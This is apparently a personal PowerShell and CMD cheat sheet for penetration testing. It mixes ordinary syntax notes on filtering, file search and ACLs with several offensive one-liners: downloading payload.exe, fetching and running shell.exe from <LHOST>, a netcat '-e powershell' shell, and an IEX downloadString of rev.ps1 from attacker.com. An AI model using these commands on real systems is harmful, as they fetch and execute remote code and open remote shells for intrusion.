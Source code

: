 # PowerShell Movements

## base64 some bytes

```powershell
[convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("hello"))
```
- works for anything that returns the bytes object

## Pull via HTTP

```powershell
Invoke-WebRequest -Uri http://PAYLOAD_SERVER:8000/ -OutFile ./payload.exe 
```

```powershell
iwr -Uri http://PAYLOAD_SERVER:8000/ -OutFile ./payload.exe 
```

# Old Sheet
## PS cheats
- put paths in quotes, because windows is bad !
- get-Service NAME
- Measure-Object										; for counting outputs
- remember you can pipe things!
- verb-noun
- outputs are objects; therefore get-member
- Objects have methods and Properties
- get-content 															; will usually type/cat/ do something
- acl, get-acl															; shows permisions in current dir, such as owner ; ACCESS CONTROL LISTS
- CMDLET | get-member -MemberType Properties/Method 					; gives information on available props/methods
- CMDLET | where-object -property PROP_NAME -operator OPERATOR_PARM		;	 filter output by my specification (always use match operator)
- CMDLET | select-object -property prop1, prop2, ...					;	 limit output fields creates a new object
- dir env:				 												; display environment vars |  format-list Property-Name

	
> find command
```
get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *SEARCH_TERM*
https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/ 
```

> grep equivalent; this will search entire filesystem
```
Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
```


> help/search availble actions
```
get-command *SEARCH_TERM*
get-help	CMDLET
```

> filtering outputs
```sh
Verb-Noun | Where-Object -Property PropertyName -operator Value
Verb-Noun | Where-Object {$_.PropertyName -operator Value}			; `$_` is an operator, iterates through every object passed (SYNTAX ERR?)
Verb-Noun | Sort-Object
```


> pull a shell & execute; possibly dont need double quotes?
```sh
CMD.exe>"powershell.exe Invoke-WebRequest -Uri http://<LHOST>:8000/shell.exe -OutFile ./shell.exe && .\shell.exe"
```

> spawn a process
```
Start-Process PROCESS_NAME 'Start-Process cmd -Verb RunAs' -Credential USERNAME
```

> netcat 
```sh
nc.exe -e powershell  		; works just like other shells
```

	
> invoke expression
```sh
IEX(New-Object WebClient).downloadString("http://attacker.com/rev.ps1")
```




## CMD cheats
- type 		== cat
- findstr 	== grep
- dir /a    == ls -a
- ren 										; alias for rename
- rename 									; path needed for source, NOT needed for destination
- copy 										; source destination
- del
- dir
- net stop/start SERVICE_NAME 				; other functions too, see /?
- whoami /all 								; gives some security info, suchas permissions